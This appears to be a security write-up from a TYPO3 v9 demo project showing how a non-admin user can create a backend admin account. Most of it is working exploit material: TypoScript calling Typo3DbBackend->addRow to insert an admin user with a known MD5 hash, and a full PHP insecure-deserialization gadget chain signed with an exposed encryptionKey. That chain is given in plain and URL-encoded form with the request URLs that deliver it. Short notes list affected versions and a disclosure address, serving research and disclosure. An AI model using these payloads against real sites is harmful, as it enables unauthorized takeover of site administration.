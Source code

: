 # Create Admin Account

This scenario describes how non-admin users can "upgrade" their privileged to have admin access.

* use hashed password using MD5 (algorithm does not matter, MD5 is just plain simple)
* `openssl passwd -1 -salt 123456 password`
* `password` -> `$1$123456$qqQvjw0PqIk7otmzNsUIN0`

## Technique TypoScript

```
something.stdWrap {
    cObject = TEXT
    cObject {
        value = be_users
        preUserFunc = TYPO3\CMS\Extbase\Persistence\Generic\Storage\Typo3DbBackend->addRow
        preUserFunc {
            username = h4ck3r31,
            password = $1$123456$qqQvjw0PqIk7otmzNsUIN0
            admin = 1
        }
    }
}
```

### Security Vulnerability

* valid backend sessions required
* TypoScript cannot be defined by non-admin users per default
* extensions allowing to define TypoScript as content element open this **vulnerability**

## Technique Insecure Deserialization, by-passing HMAC verification

By knowing sensitive `encryptionKey` (which is
`f30230987c323b8f81a0ab9fe5b690fd0ba3fb8161f4027221a6b6aa4c50ce629049b7d30c3681f3a9e2031f1dc401e6` for this demo project)
it is possible to invoke signed, but insecure deserialization.

**Steps**

* prepare insecure `PAYLOAD`
  + using `\GuzzleHttp\Psr7\FnStream` as callback
  + using `\TYPO3\CMS\IndexedSearch\Controller\SearchController` as trigger
* prepare malicious TypoScript creating a backend account
* serialize and sign payload with HMAC (based on `encryptionKey`)

**Plain**

```
O:24:"GuzzleHttp\Psr7\FnStream":1:{s:9:"_fn_close";a:2:{i:0;O:51:
"TYPO3\CMS\IndexedSearch\Controller\SearchController":2:{s:20:
"*typoScriptService";O:43:"TYPO3\CMS\Core\TypoScript\TypoScriptService"
:0:{}s:11:"*settings";a:1:{s:7:"results";a:1:{s:20:"summaryCropSignifier"
;a:1:{s:7:"cObject";a:3:{s:20:"_typoScriptNodeValue";s:4:"TEXT";s:5:
"value";s:8:"be_users";s:11:"preUserFunc";a:4:{s:20:"_typoScriptNodeValue"
;s:68:"TYPO3\CMS\Extbase\Persistence\Generic\Storage\Typo3DbBackend->addRow"
;s:8:"username";s:8:"h4ck3r31";s:8:"password";s:32:"$1$123456$qqQvjw0PqIk7otmzNsUIN0"
;s:5:"admin";i:1;}}}}}}i:1;s:10:"initialize";}}82b123396f51a2a274532ced52a6ed4a197ae278
```

**URL encoded** (ready for take-off)

```
O%3A24%3A%22GuzzleHttp%5CPsr7%5CFnStream%22%3A1%3A%7Bs%3A9%3A%22_fn_close%22%3Ba%3A2%3A%7Bi%3A0%3BO%3A51%3A
%22TYPO3%5CCMS%5CIndexedSearch%5CController%5CSearchController%22%3A2%3A%7Bs%3A20%3A
%22%00%2A%00typoScriptService%22%3BO%3A43%3A%22TYPO3%5CCMS%5CCore%5CTypoScript%5CTypoScriptService%22
%3A0%3A%7B%7Ds%3A11%3A%22%00%2A%00settings%22%3Ba%3A1%3A%7Bs%3A7%3A%22results%22%3Ba%3A1%3A%7Bs%3A20%3A%22summaryCropSignifier%22
%3Ba%3A1%3A%7Bs%3A7%3A%22cObject%22%3Ba%3A3%3A%7Bs%3A20%3A%22_typoScriptNodeValue%22%3Bs%3A4%3A%22TEXT%22%3Bs%3A5%3A
%22value%22%3Bs%3A8%3A%22be_users%22%3Bs%3A11%3A%22preUserFunc%22%3Ba%3A4%3A%7Bs%3A20%3A%22_typoScriptNodeValue%22
%3Bs%3A68%3A%22TYPO3%5CCMS%5CExtbase%5CPersistence%5CGeneric%5CStorage%5CTypo3DbBackend-%3EaddRow%22
%3Bs%3A8%3A%22username%22%3Bs%3A8%3A%22h4ck3r31%22%3Bs%3A8%3A%22password%22%3Bs%3A32%3A%22%241%24123456%24qqQvjw0PqIk7otmzNsUIN0%22
%3Bs%3A5%3A%22admin%22%3Bi%3A1%3B%7D%7D%7D%7D%7D%7Di%3A1%3Bs%3A10%3A%22initialize%22%3B%7D%7D82b123396f51a2a274532ced52a6ed4a197ae278
```

### Attack

Using some Extbase extension to trigger our payload.

**Frontend**

`ext:form` only works when having a valid backend session, plugins having an uncached default action work perfectly.
Using `&no_cache=1` might not work in all scenarios (but, it does here in this demo project).

```
http://typo3v9-hack.ddev.local/index.php?id=38&no_cache=1&tx_form_formframework[__trustedProperties]=PAYLOAD
```

**Backend**

No caching applied, but `&token=` has to be replaced with current XSRF token.

```
http://typo3v9-hack.ddev.local/typo3/index.php?route=%2Ffile%2FFilelistList%2F
&token=6d3ddff46fd38496f39fd6bd166540385c74c4ee&tx_filelist_file_filelistlist[__trustedProperties]=PAYLOAD
```

### Security Vulnerability

* `guzzlehttp/psr7`, explicitly raised in https://review.typo3.org/#/c/59516/
  + composer scenarios affected until approx. December 2018
  + TYPO3 bundle (zip/tarball) scenarios affected until v8.7.22 and v9.5.3
* exposed `encryptionKey` is (currently) not know as vulnerability
  + if it was, report to security@typo3.org immediately
  + security severity would be **critical**
